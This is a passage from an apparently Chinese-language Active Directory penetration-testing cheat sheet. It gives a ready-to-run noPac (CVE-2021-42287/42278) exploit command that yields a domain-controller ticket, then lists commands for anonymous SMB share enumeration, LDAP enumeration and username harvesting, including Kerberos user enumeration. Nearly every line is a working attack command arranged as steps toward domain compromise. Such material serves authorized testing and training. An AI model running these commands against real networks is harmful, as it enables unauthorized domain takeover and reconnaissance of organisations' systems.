 [noPac: CVE-2021-42287/CVE-2021-42278](https://github.com/cube0x0/noPac)

./noPac.exe -domain dc.com -user username -pass 'password' /dc owa.dc.com-
/mAccount mAusername /mPassword password /service cifs /ptt-

# 4.列出可匿名访问的SMB共享



```
enum4linux -a -u "" -p "" <dc-ip> && enum4linux -a -u "guest" -p "" <dc-ip>-
-
smbmap -u "" -p "" -P 445 -H <dc-ip> && smbmap -u "guest" -p "" -P 445 -H <dc-ip>-
-
smbclient -U '%' -L //<dc-ip> && smbclient -U 'guest%' -L //<dc-ip>-
-
cme smb <ip> -u '' -p '' # 枚举可空Session访问的SMB共享-
-
cme smb <ip> -u 'a' -p '' #枚举可匿名访问的SMB共享-
```


# 5.枚举LDAP 


```
nmap -n -sV --script "ldap\* and not brute" -p 389 <dc-ip>-
-
ldapsearch -x -h <ip> -s base -

```

# 6.查找用户名



`

```
enum4linux -U <dc-ip> | grep 'user:'-
-
crackmapexec smb <ip> -u <user> -p '<password>' --users -
-
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='<domain>',userdb=<users\_list\_file>" <ip> -
-
OSINT - 在互联网上寻找用户名-



```

## 得到账号，但是没有密码
